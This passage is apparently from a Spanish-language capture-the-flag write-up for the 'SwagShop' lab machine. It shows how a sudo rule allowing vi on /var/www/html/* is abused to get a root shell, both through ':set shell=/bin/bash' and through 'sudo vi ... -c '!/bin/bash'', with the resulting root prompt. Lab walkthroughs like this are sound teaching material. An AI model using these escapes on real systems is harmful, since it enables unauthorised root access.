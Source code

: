 Vemos que podemos ejecutar `/usr/bin/vi /var/www/html/*` como el usuario **root** sin proporcionar contraseña; por lo tanto podriamos abrir un recurso cualquier, es decir, poner lo que nos de la gana bajo `/var/www/html/` y luego ejecutar lo siguiente:

```bash
www-data@swagshop:/home/haris$ sudo vi /var/www/html/k4mishell
```

- **ESC** y ponemos: `:set shell=/bin/bash`; con esto declaramos una variable que se llama `shell` y cuyo valor es `/bin/bash`.
- **ESC** y ponemos: `shell`; con esto llamamos a nuestra variable que nos va a ejecutar una `/bin/bash` como el usuario **root**.

```bash
www-data@swagshop:/var/www/html$ sudo vi /var/www/html/k4mishell

root@swagshop:/var/www/html# whoami
root
root@swagshop:/var/www/html#
```

La otra forma y para no complicarnos, podriamos ocupar el parámetro `-c`:

```bash
www-data@swagshop:/var/www/html$ sudo vi /var/www/html/k4mishell -c '!/bin/bash'

root@swagshop:/var/www/html# whoami
root
root@swagshop:/var/www/html#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
